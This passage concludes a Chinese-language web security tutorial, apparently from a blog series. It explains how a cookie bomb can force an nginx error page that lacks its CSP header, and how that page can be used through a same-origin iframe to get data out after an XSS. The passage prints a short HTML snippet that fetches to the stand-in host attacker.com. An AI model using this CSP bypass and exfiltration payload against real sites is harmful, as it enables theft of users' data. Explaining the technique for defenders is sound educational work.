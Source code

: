 乍看之下沒問題，但如果 nginx 回傳的是 4xx 或 5xx 的錯誤，response 中是不會加上這個 header 的。這是 nginx 的預設行為，在[文件](https://nginx.org/en/docs/http/ngx_http_headers_module.html#add_header)上也有寫到：

> Adds the specified field to a response header provided that the response code equals 200, 201 (1.3.10), 204, 206, 301, 302, 303, 304, 307 (1.1.16, 1.0.13), or 308 (1.13.0).

因此，我們就可以利用 cookie bomb 做出一個錯誤頁面，這個頁面上面就不會有 CSP header。有些人會疑惑說，可是這是個錯誤頁面，那沒有 CSP 有什麼用呢？

假設原本頁面的 CSP 超級嚴格好了，所有的指示都設成 `'self'`，只有 `script-src` 多了一個 `unsafe-inline`，而我們又找到了一個 XSS，所以可以執行程式碼。

但問題是，我們的資料傳送不出去啊！因為 CSP 的緣故，把所有的外部連結都擋住了。這時候我們就可以用 cookie bomb 先轟炸 `/test` 頁面，接著把 `/test` 頁面放到 iframe 裡面。

放到 iframe 裡面去以後，由於符合同源政策，所以我可以直接存取到 `/test` 頁面，而這個頁面是沒有 CSP 的，因此就可以從這個頁面發出 request，範例如下：

``` html
<iframe id=f src="/test" onload=run()></iframe>
<script>
  function run() {
    f.contentWindow.fetch('https://attacker.com?data=...')
  }
</script>
```

像這種就是透過 DoS 搭配 iframe 來繞過 CSP 限制的方法。

（話說 CSP 目前其實還做不到「把所有外部連線都擋住」，如果只是要對外發送請求的話，還有其他更快速的方法，例如說利用 `location=...` 來做頁面跳轉之類的）

## 結語

在這篇文章中，我們看到了另外一種利用 cookie 的方式，把它當成是執行 DoS 的手段，讓網頁無法載入。雖然說只有這個漏洞本身影響並不大，許多公司也不把這個當成一個資安漏洞，但如果與其他手法結合起來，就有機會變成影響力更大的漏洞。

這篇是第四章「跨越限制攻擊其他網站」的結尾，在最近幾篇中我們先是搞懂了 origin 與 site 的差別，再來學到了 CORS 的設定以及設定錯誤會導致的結果，然後看到了 CSRF 以及 same-site cookie，最後探討了拿到 same-site 的控制權以後可以執行哪些攻擊。

從下一篇開始會進入到第五章：「其他有趣的前端資安主題」。

本文改寫自：[利用 Cookie 特性進行的 DoS 攻擊：Cookie 炸彈](https://blog.huli.tw/2021/07/10/cookie-bomb/)


